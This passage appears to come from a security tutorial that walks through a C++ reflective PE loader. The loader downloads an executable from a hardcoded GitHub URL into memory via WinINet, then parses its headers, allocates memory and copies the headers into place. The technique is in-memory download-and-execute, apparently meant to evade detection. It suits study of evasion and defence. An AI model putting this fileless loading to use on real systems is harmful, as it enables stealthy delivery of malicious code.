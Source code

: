 ```cpp
        return 1;
    }

```

The code begins with us leveraging the Windows Internet API (Wininet) library to download our PE file (`putty.exe`) from my hardcoded URL (https://github.com/g3tsyst3m/undertheradar/raw/refs/heads/main/putty.exe), to memory.

- **InternetOpenA**: Initializes an internet session with a user-agent string (Mozilla/5.0).
- **InternetOpenUrlA**: Opens the specified URL to retrieve the file.
- **InternetReadFile**: Reads the file in chunks (4096 bytes at a time) and stores the data in a std::vector<BYTE> called fileBuffer.

**Note**: I included some commented-out code which demonstrates an alternative method to read the PE file from disk using CreateFileA and ReadFile, but the active code uses the URL-based download approach.

Now the entire PE file is stored in a byte vector called `fileBuffer`

***Parsing the PE file headers***
-

```cpp
PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)fileBuffer.data();
PIMAGE_NT_HEADERS64 ntHeaders = (PIMAGE_NT_HEADERS64)(fileBuffer.data() + dosHeader->e_lfanew);
```

This section of code reads and interprets the headers of our PE file stored in the `std::vector<BYTE>` which we called `fileBuffer`, which contains the raw bytes of the PE file we downloaded 😸

***Allocating Memory for the PE Image***
-

```cpp
BYTE* imageBase = (BYTE*)VirtualAlloc(NULL, ntHeaders->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
if (!imageBase) {
    std::cerr << "[!] VirtualAlloc failed\n";
    return false;
}
```

Now, we will allocate a block of memory in our process's address space to hold our PE file's image (the entire memory layout of the executable).  `BYTE* imageBase` will store the base address of the allocated memory, which will serve as the in-memory location of our PE image (putty.exe). 😃

***Copying the PE Headers***
-

```cpp
memcpy(imageBase, fileBuffer.data(), ntHeaders->OptionalHeader.SizeOfHeaders);
```

This step ensures the PE headers (necessary for our PE executable's structure) are placed at the beginning of the allocated memory, mimicking how the PE would be laid out if loaded by the Windows loader.  In short, we are copying the PE file's headers from `fileBuffer` to the allocated memory at `imageBase`.
